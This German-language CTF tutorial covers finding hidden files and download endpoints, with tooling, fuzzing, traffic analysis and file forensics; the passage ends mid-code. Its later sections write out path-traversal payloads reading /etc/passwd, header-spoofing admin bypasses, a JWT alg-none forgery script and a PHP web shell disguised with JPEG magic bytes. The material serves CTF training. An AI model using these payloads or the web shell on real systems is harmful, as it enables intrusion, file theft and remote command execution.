


# Wissensdatenbank: Web-CTF-Challenges – Versteckte Dateien & Download-Techniken

> **Zielgruppe:** Fortgeschrittene CTF-Spieler | **Plattform:** Windows 11 mit Python, Firefox, HTTP Toolkit  
> **Fokus:** Vollständiger Workflow zum Auffinden und Analysieren versteckter Dateien und Download-Endpunkte

---

## Inhaltsverzeichnis

1. [Mindset & Methodik](#1-mindset--methodik)
2. [Setup & Toolchain unter Windows 11](#2-setup--toolchain-unter-windows-11)
3. [Phase 1 – Passive Reconnaissance](#3-phase-1--passive-reconnaissance)
4. [Phase 2 – Aktive Enumeration versteckter Ressourcen](#4-phase-2--aktive-enumeration-versteckter-ressourcen)
5. [Phase 3 – HTTP-Traffic-Analyse mit HTTP Toolkit](#5-phase-3--http-traffic-analyse-mit-http-toolkit)
6. [Phase 4 – Dateianalyse nach dem Download](#6-phase-4--dateianalyse-nach-dem-download)
7. [Phase 5 – Fortgeschrittene Angriffsvektoren](#7-phase-5--fortgeschrittene-angriffsvektoren)
8. [Python-Automatisierung für CTF-Workflows](#8-python-automatisierung-für-ctf-workflows)
9. [Entscheidungsbaum: Welches Tool wann?](#9-entscheidungsbaum-welches-tool-wann)
10. [Häufige CTF-Muster & ihre Lösungsstrategien](#10-häufige-ctf-muster--ihre-lösungsstrategien)
11. [Referenz: Wichtige HTTP-Statuscodes](#11-referenz-wichtige-http-statuscodes)
12. [Cheatsheet: Schnellreferenz-Befehle](#12-cheatsheet-schnellreferenz-befehle)
13. [Referenzen](#referenzen)

---

## 1. Mindset & Methodik

### Das Grundprinzip: Alles ist potenziell versteckt

Bei Web-CTF-Challenges gilt eine eiserne Regel: Die sichtbare Oberfläche einer Webseite ist fast nie das Ziel. CTF-Autoren verstecken Flags und kritische Dateien absichtlich in Bereichen, die ein normaler Nutzer nie besucht – in Backup-Dateien, Konfigurationsdateien, vergessenen API-Endpunkten, Metadaten oder sogar in den HTTP-Headern selbst. [1]

Die Methodik folgt einem strukturierten Trichter: von der passiven Informationssammlung über die aktive Enumeration bis hin zur Exploitation und Dateianalyse. Wer diesen Trichter überspringt und direkt mit Exploitation beginnt, verschwendet Zeit auf Angriffsvektoren, die gar nicht existieren.

### Der CTF-Workflow im Überblick



---

## 2. Setup & Toolchain unter Windows 11

### 2.1 WSL2 – Das Fundament

Da die meisten CTF-Tools primär für Linux entwickelt wurden, ist das **Windows Subsystem for Linux 2 (WSL2)** die wichtigste Grundlage. Es erlaubt die native Ausführung von Linux-Binaries unter Windows 11, ohne eine virtuelle Maschine zu benötigen. [2]

```powershell
# PowerShell als Administrator ausführen
wsl --install
# Nach Neustart: Ubuntu als Standard-Distribution
wsl --set-default-version 2
```

Nach der Installation empfiehlt sich folgende Grundkonfiguration in WSL2:

```bash
sudo apt update && sudo apt upgrade -y
sudo apt install -y curl wget git python3 python3-pip golang-go \
    binwalk exiftool foremost file xxd strings jq
```

### 2.2 Toolchain-Übersicht

Die folgende Tabelle zeigt das vollständige Arsenal für Web-CTF-Challenges mit versteckten Dateien:

| Kategorie | Tool | Plattform | Primärer Einsatz |
|---|---|---|---|
| **Enumeration** | ffuf | WSL2 / Windows nativ | Verzeichnis- und Parameter-Fuzzing |
| **Enumeration** | Gobuster | WSL2 / Windows nativ | Schnelles Directory-Busting |
| **Enumeration** | feroxbuster | WSL2 | Rekursives Fuzzing mit Link-Extraktion |
| **Traffic** | HTTP Toolkit | Windows nativ | HTTPS-Interception, Header-Manipulation |
| **Traffic** | Firefox DevTools | Windows nativ | Netzwerk-Tab, Request-Inspektion |
| **Dateianalyse** | binwalk | WSL2 | Eingebettete Dateien in Binaries |
| **Dateianalyse** | exiftool | WSL2 / Windows | Metadaten aus Dateien |
| **Dateianalyse** | file | WSL2 | Echter Dateityp (Magic Bytes) |
| **Dateianalyse** | xxd / HxD | WSL2 / Windows | Hex-Analyse |
| **Steganographie** | steghide | WSL2 | Versteckte Daten in JPEG/BMP |
| **Steganographie** | zsteg | WSL2 | LSB-Steganographie in PNG/BMP |
| **Encoding** | CyberChef | Browser (online) | Encoding/Decoding aller Art |
| **Automatisierung** | Python requests | Windows / WSL2 | Skriptbasierte HTTP-Anfragen |
| **Wordlists** | SecLists | WSL2 | Wordlist-Sammlung für alle Zwecke |

### 2.3 Installation der Kern-Tools

**ffuf** ist als vorkompiliertes Binary für Windows verfügbar und kann direkt ohne WSL2 verwendet werden: [3]

```powershell
# Windows: via Scoop
scoop install ffuf

# Oder direkter Download von GitHub Releases
# https://github.com/ffuf/ffuf/releases
```

**SecLists** – die wichtigste Wordlist-Sammlung – sollte in WSL2 installiert werden: [4]

```bash
# In WSL2
sudo apt install seclists
# Oder manuell:
git clone --depth 1 https://github.com/danielmiessler/SecLists.git ~/SecLists
```

**Python-Pakete** für Automatisierung:

```bash
pip install requests beautifulsoup4 pwntools
```

---

## 3. Phase 1 – Passive Reconnaissance

### 3.1 Der Browser als erstes Werkzeug

Bevor irgendein Tool gestartet wird, sollte die Webseite manuell erkundet werden. Firefox DevTools (F12) bieten dabei mehr Informationen als auf den ersten Blick ersichtlich:

**Netzwerk-Tab:** Jede HTTP-Anfrage und -Antwort ist sichtbar. Besonders wichtig sind dabei Response-Header wie `X-Powered-By`, `Server`, `Content-Disposition` und `Set-Cookie`. Diese Header verraten oft die verwendete Technologie und geben Hinweise auf Angriffsvektoren.

**Quellcode (STRG+U):** HTML-Kommentare sind ein klassisches Versteck für Flags und Hinweise. Entwickler hinterlassen dort häufig Zugangsdaten, Pfade zu Admin-Panels oder sogar direkte Flags. Besonders in JavaScript-Dateien finden sich oft auskommentierte Endpunkte oder Debug-Informationen.

**Storage-Tab:** Cookies, LocalStorage und SessionStorage können Tokens, Benutzer-IDs oder sogar kodierte Flags enthalten.

### 3.2 robots.txt und sitemap.xml

Diese Dateien sind für CTF-Challenges geradezu legendär. `robots.txt` listet Pfade auf, die Suchmaschinen nicht crawlen sollen – was in CTFs oft bedeutet, dass genau dort die interessanten Ressourcen liegen. [5]

```
# Typisches CTF-Beispiel in robots.txt:
User-agent: *
Disallow: /secret_admin_panel/
Disallow: /backup/
Disallow: /flag.txt
```

Folgende Metadateien sollten immer als erstes geprüft werden:

| Datei | URL | Was sie verrät |
|---|---|---|
| `robots.txt` | `/robots.txt` | Verbotene Verzeichnisse, versteckte Pfade |
| `sitemap.xml` | `/sitemap.xml` | Alle indizierten Seiten der Website |
| `.htaccess` | `/.htaccess` | Apache-Konfiguration (falls lesbar) |
| `crossdomain.xml` | `/crossdomain.xml` | Flash-Richtlinien (ältere Challenges) |
| `security.txt` | `/.well-known/security.txt` | Kontaktinfos, manchmal Hinweise |

### 3.3 JavaScript Source Maps

Ein oft übersehener Angriffsvektor sind **JavaScript Source Maps** (`.map`-Dateien). Wenn eine Webseite minifizierten JavaScript-Code ausliefert und die Source Maps versehentlich öffentlich zugänglich sind, kann der vollständige Originalquellcode rekonstruiert werden. [6]

```bash
# Prüfen ob Source Maps verfügbar sind
curl -I https://target.ctf/static/app.js
# Wenn im Header: SourceMap: app.js.map

# Source Map herunterladen und analysieren
curl https://target.ctf/static/app.js.map | python3 -c "
import json, sys
data = json.load(sys.stdin)
for i, src in enumerate(data.get('sources', [])):
    print(f'[{i}] {src}')
"
```

### 3.4 .git-Verzeichnis-Exposition

Wenn ein `.git`-Verzeichnis versehentlich auf dem Webserver liegt, kann der gesamte Quellcode des Projekts rekonstruiert werden – inklusive aller Commit-Historien, Zugangsdaten und Konfigurationsdateien. [7]

```bash
# Prüfen ob .git exponiert ist
curl -s https://target.ctf/.git/HEAD
# Erwartete Ausgabe: ref: refs/heads/main

# Tool: git-dumper (automatische Rekonstruktion)
pip install git-dumper
git-dumper https://target.ctf/.git/ ./output_repo

# Danach Commit-Historie analysieren
cd output_repo
git log --oneline
git show <commit-hash>
# Gelöschte Dateien wiederherstellen:
git stash list
git diff HEAD~1 HEAD
```

### 3.5 Backup- und Konfigurationsdateien

Entwickler hinterlassen häufig Backup-Dateien auf Webservern, die direkt zugänglich sind. Diese entstehen durch Editor-Autosaves, manuelle Backups oder Deployment-Fehler. [8]

Typische Backup-Erweiterungen, die geprüft werden sollten:

| Erweiterung | Ursprung | Beispiel |
|---|---|---|
| `.bak` | Manuelle Backups | `config.php.bak` |
| `.old` | Versionierung | `index.php.old` |
| `.orig` | Patch-Backups | `app.py.orig` |
| `~` | Vim/Emacs Autosave | `config.php~` |
| `.swp` | Vim Swap-Datei | `.config.php.swp` |
| `.DS_Store` | macOS Metadaten | `.DS_Store` |
| `Thumbs.db` | Windows Metadaten | `Thumbs.db` |

```bash
# Schnellcheck für bekannte Backup-Dateien
for ext in .bak .old .orig ~ .swp .1 .2; do
    curl -s -o /dev/null -w "%{http_code} $ext\n" "https://target.ctf/index.php$ext"
done
```

---

## 4. Phase 2 – Aktive Enumeration versteckter Ressourcen

### 4.1 ffuf – Der Standard für Web-Fuzzing

**ffuf** (Fuzz Faster U Fool) ist das leistungsfähigste und flexibelste Tool für Web-Fuzzing. Im Gegensatz zu reinen Directory-Bustern kann ffuf den `FUZZ`-Platzhalter an beliebiger Stelle in der URL, in Headern oder im Request-Body platzieren. [3]

#### Grundlegende Verzeichnis-Enumeration

```bash
# Standard-Scan mit kleiner Wordlist (schnell)
ffuf -u https://target.ctf/FUZZ \
     -w ~/SecLists/Discovery/Web-Content/common.txt \
     -mc 200,301,302,403 \
     -c -v

# Mit Dateiendungen (für PHP-Anwendungen)
ffuf -u https://target.ctf/FUZZ \
     -w ~/SecLists/Discovery/Web-Content/raft-medium-words.txt \
     -e .php,.txt,.html,.bak,.old,.zip,.tar.gz \
     -mc 200,301,302,403 \
     -c
```

#### Fortgeschrittene ffuf-Techniken

**Filter und Matcher** sind entscheidend, um False Positives zu eliminieren. Wenn eine Seite für alle nicht existierenden Pfade denselben 200-Status zurückgibt (Soft-404), muss nach Response-Größe oder -Wörtern gefiltert werden: [9]

```bash
# Soft-404 erkennen und filtern
# Erst Baseline ermitteln:
curl -s https://target.ctf/doesnotexist123abc | wc -c
# Ausgabe z.B.: 1337 Bytes

# Dann nach dieser Größe filtern:
ffuf -u https://target.ctf/FUZZ \
     -w ~/SecLists/Discovery/Web-Content/common.txt \
     -fs 1337          # filter size: ignoriere Antworten mit genau 1337 Bytes
     -fc 404           # filter code: ignoriere 404

# Alternativ: nach Wortanzahl filtern
ffuf -u https://target.ctf/FUZZ \
     -w ~/SecLists/Discovery/Web-Content/common.txt \
     -fw 42            # filter words: ignoriere Antworten mit 42 Wörtern
```

**Parameter-Fuzzing** – wenn eine Seite einen GET-Parameter erwartet, der nicht dokumentiert ist:

```bash
# Versteckte GET-Parameter finden
ffuf -u "https://target.ctf/page?FUZZ=test" \
     -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt \
     -mc 200 -fs 1337

# POST-Parameter fuzzen
ffuf -u "https://target.ctf/api/endpoint" \
     -X POST \
     -d "FUZZ=value" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -w ~/SecLists/Discovery/Web-Content/burp-parameter-names.txt
```

**Raw-Request-Modus** – besonders nützlich in Kombination mit HTTP Toolkit. Den Request aus HTTP Toolkit kopieren, als Datei speichern und direkt in ffuf laden:

```bash
# req.txt Inhalt (aus HTTP Toolkit kopiert):
# GET /download?file=FUZZ HTTP/1.1
# Host: target.ctf
# Cookie: session=abc123
# User-Agent: Mozilla/5.0 ...

ffuf -request req.txt \
     -request-proto https \
     -w ~/SecLists/Discovery/Web-Content/raft-medium-files.txt \
     -mc 200 -c
```

**STDIN-Pipeline für dynamische Wordlists:**

```bash
# Alle Zahlen von 1 bis 10000 als IDs testen
seq 1 10000 | ffuf -u "https://target.ctf/file?id=FUZZ" -w - -mc 200

# Hexadezimale IDs testen
python3 -c "print('\n'.join(hex(i)[2:] for i in range(256)))" | \
    ffuf -u "https://target.ctf/resource/FUZZ" -w -
```

**Konfigurationsdatei** für wiederkehrende Einstellungen (`~/.ffufrc` bzw. `%USERPROFILE%\.ffufrc` unter Windows):

```toml
[general]
  colors = true

[http]
  proxyurl = "http://127.0.0.1:8080"   # HTTP Toolkit Proxy

[matcher]
  status = "200,201,204,301,302,307,401,403,405,500"
```

### 4.2 Gobuster – Schnell und zuverlässig

Gobuster ist schneller als ffuf für reine Directory-Enumeration, da es weniger Overhead hat. Es ist besonders gut für den ersten, schnellen Scan geeignet. [10]

```bash
# Standard Directory-Scan
gobuster dir \
    -u https://target.ctf \
    -w ~/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt \
    -x php,html,txt,bak \
    -t 50 \
    -o gobuster_results.txt

# Mit Authentifizierung
gobuster dir \
    -u https://target.ctf \
    -w ~/SecLists/Discovery/Web-Content/common.txt \
    -c "session=abc123; auth=xyz" \
    -H "Authorization: Bearer eyJ..." \
    -k   # TLS-Fehler ignorieren

# DNS-Subdomain-Enumeration
gobuster dns \
    -d target.ctf \
    -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
    -t 50
```

### 4.3 Die richtige Wordlist wählen

Die Wahl der Wordlist ist oft entscheidender als die Wahl des Tools. [4]

| Wordlist | Pfad in SecLists | Größe | Einsatz |
|---|---|---|---|
| `common.txt` | `Discovery/Web-Content/common.txt` | ~4.600 | Erster schneller Scan |
| `raft-medium-words.txt` | `Discovery/Web-Content/raft-medium-words.txt` | ~63.000 | Standard-Tiefenscan |
| `directory-list-2.3-medium.txt` | `Discovery/Web-Content/directory-list-2.3-medium.txt` | ~220.000 | Gründlicher Scan |
| `raft-medium-files.txt` | `Discovery/Web-Content/raft-medium-files.txt` | ~17.000 | Datei-spezifisch |
| `burp-parameter-names.txt` | `Discovery/Web-Content/burp-parameter-names.txt` | ~6.500 | Parameter-Fuzzing |
| `quickhits.txt` | `Discovery/Web-Content/quickhits.txt` | ~2.500 | CTF-spezifische Pfade |

> **Tipp für CTFs:** Die Wordlist `quickhits.txt` enthält viele CTF-typische Pfade wie `/flag`, `/secret`, `/admin/flag.txt` und ist oft der schnellste Weg zum Ziel.

### 4.4 Virtual Host Enumeration

Manche CTF-Challenges verstecken Inhalte hinter Virtual Hosts – verschiedene Subdomains, die auf dieselbe IP zeigen, aber unterschiedliche Inhalte ausliefern. [11]

```bash
# VHost-Fuzzing mit ffuf
ffuf -u https://target.ctf/ \
     -H "Host: FUZZ.target.ctf" \
     -w ~/SecLists/Discovery/DNS/subdomains-top1million-5000.txt \
     -mc 200,301,302 \
     -fs 1337   # Baseline-Größe der Standardseite

# Gefundene VHosts in Windows hosts-Datei eintragen
# C:\Windows\System32\drivers\etc\hosts (als Admin bearbeiten)
# 10.10.10.10  secret.target.ctf
```

---

## 5. Phase 3 – HTTP-Traffic-Analyse mit HTTP Toolkit

### 5.1 HTTP Toolkit als CTF-Werkzeug

HTTP Toolkit ist für Web-CTF-Challenges unter Windows besonders wertvoll, weil es als Man-in-the-Middle-Proxy alle HTTPS-Verbindungen von Firefox entschlüsselt und vollständig inspizierbar macht – ohne die aufwendige Zertifikatskonfiguration von Burp Suite. [12]

**Einrichtung für CTF-Challenges:**

1. HTTP Toolkit starten und Firefox-Profil auswählen (automatische Proxy-Konfiguration)
2. In Firefox die CTF-Seite öffnen
3. Im HTTP Toolkit "View" Tab: alle Requests und Responses in Echtzeit sehen

### 5.2 Was im Traffic zu suchen ist

**Response-Header analysieren:** Viele CTF-Flags oder Hinweise werden in ungewöhnlichen HTTP-Headern versteckt. Folgende Header sollten immer geprüft werden:

| Header | Was er verrät |
|---|---|
| `X-Flag` | Direktes Flag (klassischer CTF-Trick) |
| `X-Secret` | Versteckte Informationen |
| `X-Debug` | Debug-Informationen, Pfade |
| `Content-Disposition` | Dateiname beim Download, kann manipuliert werden |
| `Set-Cookie` | Cookie-Werte, oft Base64-kodiert oder JWT |
| `Location` | Redirect-Ziel, kann versteckte Pfade enthalten |
| `Server` | Technologie-Stack, Version |
| `X-Powered-By` | Framework/Sprache |

**Request-Manipulation mit HTTP Toolkit:** Das "Rewrite"-Feature erlaubt es, Requests on-the-fly zu modifizieren, bevor sie den Server erreichen:

```
Regel: Wenn Request-URL enthält "/download"
Dann: Füge Header hinzu "X-Admin: true"
```

### 5.3 Content-Disposition und Download-Tricks

Der `Content-Disposition`-Header steuert, ob der Browser eine Datei anzeigt oder herunterlädt. In CTF-Challenges gibt es mehrere Angriffsvektoren:

**Szenario 1: Datei wird zum Download angeboten, enthält aber mehr als erwartet**

```
HTTP/1.1 200 OK
Content-Disposition: attachment; filename="report.pdf"
Content-Type: application/pdf
```

Die heruntergeladene Datei sollte immer mit `file` und `binwalk` analysiert werden – der tatsächliche Dateityp kann vom angegebenen abweichen.

**Szenario 2: Content-Disposition-Bypass**

Wenn eine Seite Dateien mit `Content-Disposition: attachment` ausliefert, kann HTTP Toolkit verwendet werden, um diesen Header zu entfernen oder auf `inline` zu ändern, sodass der Browser den Inhalt direkt anzeigt – nützlich, wenn die Datei eigentlich HTML oder Text ist:

```
Rewrite-Regel in HTTP Toolkit:
Response-Header "Content-Disposition" entfernen
```

**Szenario 3: Dateiname-Manipulation**

```bash
# Mit curl den Download-Header analysieren
curl -I "https://target.ctf/download?id=1"
# Content-Disposition: attachment; filename="flag_encrypted.zip"

# Direkt herunterladen und analysieren
curl -o downloaded_file "https://target.ctf/download?id=1"
file downloaded_file
```

### 5.4 Cookie- und Session-Manipulation

Cookies sind ein häufiger Angriffsvektor in Web-CTFs. HTTP Toolkit zeigt alle Cookies im Klartext und erlaubt deren Manipulation:

**JWT-Token analysieren und manipulieren:**

```bash
# JWT-Token dekodieren (ohne Verifizierung)
echo "eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZ3Vlc3QifQ.xxx" | \
    python3 -c "
import base64, json, sys
token = sys.stdin.read().strip()
parts = token.split('.')
for i, part in enumerate(['Header', 'Payload']):
    padded = parts[i] + '=' * (4 - len(parts[i]) % 4)
    decoded = base64.urlsafe_b64decode(padded)
    print(f'{part}: {json.loads(decoded)}')
"
```

**Algorithm-None-Angriff auf JWT:**

```python
import base64, json

header = {"alg": "none", "typ": "JWT"}
payload = {"user": "admin", "role": "superuser"}

def b64_encode(data):
    return base64.urlsafe_b64encode(
        json.dumps(data).encode()
    ).rstrip(b'=').decode()

forged = f"{b64_encode(header)}.{b64_encode(payload)}."
print(forged)
```

---

## 6. Phase 4 – Dateianalyse nach dem Download

### 6.1 Der erste Schritt: Dateityp bestimmen

Niemals dem Dateinamen oder der Dateiendung vertrauen. Der tatsächliche Dateityp wird durch die **Magic Bytes** am Anfang der Datei bestimmt:

```bash
# Echter Dateityp
file downloaded_file

# Hex-Dump der ersten Bytes (Magic Bytes)
xxd downloaded_file | head -5
# oder unter Windows mit HxD

# Häufige Magic Bytes:
# FF D8 FF    → JPEG
# 89 50 4E 47 → PNG
# 50 4B 03 04 → ZIP
# 25 50 44 46 → PDF
# 1F 8B       → GZIP
# 7F 45 4C 46 → ELF (Linux-Binary)
# 4D 5A       → MZ (Windows PE/EXE)
```

### 6.2 Metadaten-Analyse mit exiftool

Exiftool liest Metadaten aus nahezu allen Dateiformaten. In CTFs werden Flags häufig in EXIF-Daten versteckt: [13]

```bash
# Alle Metadaten anzeigen
exiftool downloaded_file

# Nur interessante Felder
exiftool -Comment -Author -Description -UserComment downloaded_file

# Batch-Analyse mehrerer Dateien
exiftool -r /pfad/zum/verzeichnis/

# GPS-Koordinaten extrahieren (für OSINT-Challenges)
exiftool -GPSLatitude -GPSLongitude image.jpg
```

### 6.3 binwalk – Eingebettete Dateien extrahieren

Binwalk durchsucht Binärdateien nach eingebetteten Dateisignaturen und kann diese automatisch extrahieren. Es ist unverzichtbar, wenn eine Datei "mehr enthält als sie zeigt": [14]

```bash
# Analyse: Was ist in der Datei eingebettet?
binwalk downloaded_file

# Extraktion aller gefundenen Dateien
binwalk -e downloaded_file
# Ergebnis liegt in _downloaded_file.extracted/

# Rekursive Extraktion (verschachtelte Archive)
binwalk -e --run-as=root -M downloaded_file

# Entropie-Analyse (hohe Entropie = verschlüsselt/komprimiert)
binwalk -E downloaded_file
```

**Typische binwalk-Ausgabe:**

```
DECIMAL       HEXADECIMAL     DESCRIPTION
-------       -----------     -----------
0             0x0             JPEG image data, JFIF standard 1.01
1024          0x400           Zip archive data, at least v2.0 to extract
2048          0x800           PNG image, 100 x 100, 8-bit/color RGBA
```

### 6.4 Steganographie-Analyse

Steganographie versteckt Daten innerhalb anderer Dateien, ohne dass dies auf den ersten Blick erkennbar ist. [15]

#### Für JPEG/BMP-Dateien: steghide

```bash
# Prüfen ob Daten eingebettet sind
steghide info image.jpg

# Extrahieren (ohne Passwort)
steghide extract -sf image.jpg

# Mit Passwort
steghide extract -sf image.jpg -p "password"

# Brute-Force mit StegCracker
stegcracker image.jpg ~/SecLists/Passwords/Common-Credentials/10k-most-common.txt
```

#### Für PNG/BMP-Dateien: zsteg

```bash
# Alle Methoden ausprobieren
zsteg -a image.png

# Spezifische Extraktion
zsteg -E b1,rgb,lsb,xy image.png   # LSB in RGB-Kanälen

# Ausgabe in Datei
zsteg image.png > zsteg_output.txt
```

#### Stegsolve – Visuelle Analyse

Stegsolve ist ein Java-Tool, das verschiedene Farbfilter auf Bilder anwendet und versteckte Texte oder Muster sichtbar machen kann. [15]

```bash
# Download und Ausführung
wget https://github.com/eugenekolo/sec-tools/raw/master/stego/stegsolve/stegsolve/stegsolve.jar
java -jar stegsolve.jar
```

#### Audio-Steganographie: Sonic Visualizer

Bei WAV-Dateien können Flags im Spektrogramm versteckt sein – sichtbar als Text oder Muster, wenn das Audio als Spektrogramm dargestellt wird.

```bash
# WavSteg für LSB-Extraktion
python3 WavSteg.py -r -s audio.wav -o output.txt -n 1
```

### 6.5 Strings und Hex-Analyse

```bash
# Alle druckbaren Strings in einer Datei
strings downloaded_file

# Nur längere Strings (mindestens 8 Zeichen)
strings -n 8 downloaded_file

# Nach Flag-Format suchen (CTF{...} oder FLAG{...})
strings downloaded_file | grep -iE "(ctf|flag|key)\{[^}]+\}"

# Hex-Dump mit xxd
xxd downloaded_file | less

# Spezifischen Bereich analysieren
xxd -s 0x100 -l 256 downloaded_file
```

### 6.6 Archiv-Analyse

```bash
# ZIP-Datei analysieren (auch verschlüsselte)
unzip -l archive.zip    # Inhalt anzeigen
unzip -p archive.zip    # Inhalt ausgeben ohne zu extrahieren

# Verschlüsseltes ZIP brute-forcen
fcrackzip -u -D -p ~/SecLists/Passwords/Common-Credentials/10k-most-common.txt archive.zip

# John the Ripper für ZIP
zip2john archive.zip > hash.txt
john hash.txt --wordlist=~/SecLists/Passwords/rockyou.txt

# RAR-Dateien
unrar l archive.rar
unrar x archive.rar
```

---

## 7. Phase 5 – Fortgeschrittene Angriffsvektoren

### 7.1 Path Traversal / Local File Inclusion (LFI)

Path Traversal erlaubt es, Dateien außerhalb des vorgesehenen Verzeichnisses zu lesen. Wenn eine Anwendung einen Dateinamen als Parameter akzeptiert, ist dies ein primärer Angriffsvektor: [16]

```bash
# Klassischer Path Traversal
curl "https://target.ctf/download?file=../../../etc/passwd"

# URL-kodierte Varianten (Filter-Bypass)
curl "https://target.ctf/download?file=..%2F..%2F..%2Fetc%2Fpasswd"
curl "https://target.ctf/download?file=....//....//....//etc/passwd"
curl "https://target.ctf/download?file=%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"

# Doppelt URL-kodiert
curl "https://target.ctf/download?file=%252e%252e%252f%252e%252e%252fetc%252fpasswd"

# Null-Byte-Injection (ältere PHP-Versionen)
curl "https://target.ctf/download?file=../../../etc/passwd%00.jpg"
```

**ffuf für automatisiertes Path Traversal:**

```bash
# cook-Tool für dynamische Traversal-Sequenzen
cook '../*1-10' | ffuf -u "https://target.ctf/download?file=FUZZetc/passwd" -w - -mc 200

# Mit PayloadsAllTheThings-Wordlist
ffuf -u "https://target.ctf/download?file=FUZZ" \
     -w ~/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt \
     -mc 200 -fs 0
```

### 7.2 IDOR – Insecure Direct Object Reference

IDOR-Schwachstellen erlauben den Zugriff auf Ressourcen anderer Nutzer durch Manipulation von IDs:

```bash
# Sequentielle IDs testen
for i in $(seq 1 100); do
    response=$(curl -s -o /dev/null -w "%{http_code}" \
        "https://target.ctf/files/$i")
    if [ "$response" = "200" ]; then
        echo "Gefunden: /files/$i"
        curl -s "https://target.ctf/files/$i" -o "file_$i"
    fi
done

# Mit ffuf
seq 1 1000 | ffuf -u "https://target.ctf/files/FUZZ" \
    -w - -mc 200 -c
```

### 7.3 HTTP-Header-Manipulation

Bestimmte HTTP-Header können Zugangsbeschränkungen umgehen oder versteckte Funktionen aktivieren: [17]

```bash
# IP-Spoofing über Proxy-Header (Admin-Bypass)
curl -H "X-Forwarded-For: 127.0.0.1" https://target.ctf/admin
curl -H "X-Real-IP: 127.0.0.1" https://target.ctf/admin
curl -H "X-Original-IP: 127.0.0.1" https://target.ctf/admin
curl -H "Client-IP: 127.0.0.1" https://target.ctf/admin

# User-Agent-basierte Zugriffsbeschränkungen umgehen
curl -H "User-Agent: Googlebot/2.1" https://target.ctf/secret
curl -H "User-Agent: CTFBot/1.0" https://target.ctf/secret

# Referrer-basierte Beschränkungen
curl -H "Referer: https://target.ctf/admin" https://target.ctf/secret

# HTTP-Methoden-Override
curl -X POST -H "X-HTTP-Method-Override: DELETE" https://target.ctf/resource/1
```

**In HTTP Toolkit:** Diese Header können über Rewrite-Regeln automatisch zu allen Requests hinzugefügt werden, ohne jeden Request manuell zu modifizieren.

### 7.4 MIME-Type und Dateiendungs-Bypass

Wenn eine Anwendung Datei-Uploads akzeptiert und nach Typ filtert, gibt es verschiedene Bypass-Techniken: [18]

```bash
# Content-Type manipulieren (mit HTTP Toolkit oder curl)
curl -X POST \
     -F "file=@shell.php;type=image/jpeg" \
     https://target.ctf/upload

# Doppelte Erweiterung
# shell.php.jpg → wird als JPG akzeptiert, aber als PHP ausgeführt

# Alternative PHP-Erweiterungen
# .phtml, .phar, .php3, .php4, .php5, .php7, .shtml

# Magic Bytes fälschen: PHP-Datei mit JPEG-Header
python3 -c "
with open('shell.jpg', 'wb') as f:
    f.write(b'\xff\xd8\xff\xe0')  # JPEG Magic Bytes
    f.write(b'<?php system(\$_GET[\"cmd\"]); ?>')
"
```

### 7.5 .git-Rekonstruktion mit git-dumper

```bash
# Vollständige Repository-Rekonstruktion
git-dumper https://target.ctf/.git/ ./repo

# Alle Commits nach Flags durchsuchen
cd repo
git log --all --oneline
git grep -i "flag\|secret\|password" $(git rev-list --all)

# Gelöschte Dateien aus der History wiederherstellen
git show HEAD~1:deleted_file.txt

# Alle jemals existierenden Dateien auflisten
git log --all --full-history -- "*.txt"
```

---

## 8. Python-Automatisierung für CTF-Workflows

### 8.1 Session-Management und Cookie-Handling

Python's `requests`-Bibliothek mit Session-Objekt ist ideal für CTF-Challenges, die Authentifizierung erfordern: [19]

```python
import requests

